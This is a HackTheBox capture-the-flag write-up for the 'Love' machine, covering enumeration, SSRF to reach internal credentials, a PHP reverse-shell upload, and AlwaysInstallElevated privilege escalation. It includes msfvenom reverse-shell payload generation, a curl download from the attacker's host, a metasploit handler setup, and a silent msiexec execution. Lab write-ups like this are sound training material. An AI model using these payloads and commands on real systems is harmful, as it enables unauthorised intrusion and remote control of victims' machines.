







# HackTheBox - Love

## Introduction
So you have arrived at last !!! Come now ! Let me show you how i did this box named **Love**. Let's get started, shall we ?

### 1. Enumeration
I got an ip address of `10.10.10.239` when i joined the machine. As always i fired up two `nmap` scans
```bash
nmap -sC -sV 10.10.10.239 -oN recon/nmap_initial

nmap -p- 10.10.10.239 -oN recon/nmap_all_ports
```

I let it run in the background and visited the site manually. There was a website running on port *80*. The website says it it a voting system built on PHP. The website offers you a login functionality when supplied with voter's id and password.


Let's try out logging in with some most common username and passwords. Nothing! Let's see if there is any kind of injection vulnerability in login functionality. Oh! Oh! Nothing!! Let's take a look at the source code. 



Oh yes! We see the server is using **AdminLTE v2.4.0**, for dashboard management. A quick google search shows that this version is vulnerable to file upload. So if we could access the dashboard page, we can upload malicious payload to get reverse shell. *Yowzah!!!* Now let's find access to dashboard page.

Let's fuzz for directories and see if we can get anything interesting
```bash
ffuf -u http://love.htb/FUZZ -w /path/to/wordlist
```
##### *Note: I configured hosts file for love.htb*

So we got some endpoints here. One of them is */admin* which gives us a page that looks exactly like the default page asking for login credentials. The endpoint */images* shows that directory listing is enabled but access to most of the files are forbidden. There was nothing of our interest.

Let's take a look at our `nmap` scan results.



We can see different services running on different ports. There is a **http** service running on port **80**, which we saw earlier. There is also a **http** server configured with ssl on port **443** *(not https)*, and a **http** server on port **5000**. I tried to see what those services are serving but was kindly welcomed by a *forbidden* message. Taking a closer look at the `nmap` results, we see that ssl certificate is suggesting a hostname *staging.love.htb*. 



After setting up host configuration, visiting `http://staging.love.htb` responded us with a webpage.

There was a signup option which doesn't work but demo section was taking a url and displaying in the page.



Ah!! SSRF!! This was the first thing on my mind. A lot of previously forbidden endpoints were still forbidden to us but few endpoints were accessible now like */server-info*. This must be the clue that this is how i am going to get credentials. I tried a lot of endpoints and URLs that i could think of but none worked. I was exhausted at that time and a little bit frustrated too. :tired_face:

Then [SAGAR](https://github.com/SagarDangal/) came in and adviced me to see if i could access server listening at port **5000**. I completely forgot about it. And to my surprise, i could access the webpage *(internal SSRF)* and there were credentials for **admin**. Ha! Ha! Ha! I quickly visited `http://love.htb/admin` and signed in with those credentials. And it worked !!! I now have access to the dashboard i was waiting for.


### 2. Malicious payload
There was an add voter section where we can upload our malicious file. We know this is the way coz we know **AdminLTE** had the vulnerability. I tried different reverse shell payloads but the most stable shell was obtained through this payload. *(Link provided [here](payloads/all_os_php_rev_shell.php))*



So let's fire up `netcat` listener
```bash
nc -vnlp 9000
```
Once i added the user with malicious payload as profile picture, i got a reverse shell. Yo hoo !!! We were logged in as user **Phoebe** and we got our user flag at his desktop.



Here ends our journey for first checkpoint. Now let's go for root flag. Are you ready ??

### 3. Privilege Escalation
To be honest, i am not much familiar with windows boxes. So i thought the best thing to do at this moment is to run `winpeas`. Yes. Yes. I know what you are thinking. I am not being a script kiddie here and let's not be so judgemental for a moment, shall we? Everyone uses it. Its automation baby !!!

**Winpeas** told me that there is **AlwaysInstallElevated** flag set to 1 for both **HKLM** and **HKCU** registry. This seemed interesting. My simple understanding told me that may be my installed software may run on elevated privileges. With few google searches, it was indeed the case. 

Let us create a payload to return us reverse shell with `msfvenom`
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.4 lport=4444 -f msi > rev.msi
```
Now i uploaded this file to our victim box using curl 
```bash
curl http://10.10.14.4/rev.msi -O rev.msi
```
##### Note: i ran a http server with python on my attacker machine

Now let's listen to the reverse connection using metasploit.
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.10.14.4
msf exploit(handler) > set lport 4444
msf exploit(handler) > exploit
```

On our victim box, let's execute the **msi** file we uploaded
```bash
msiexec /quiet /qn /i rev.msi
```

And we got the meterpreter session. Fantastic!!



And we see that we are indeed rooted in local system account. Now we can have our **root** flag at Administrator's desktop.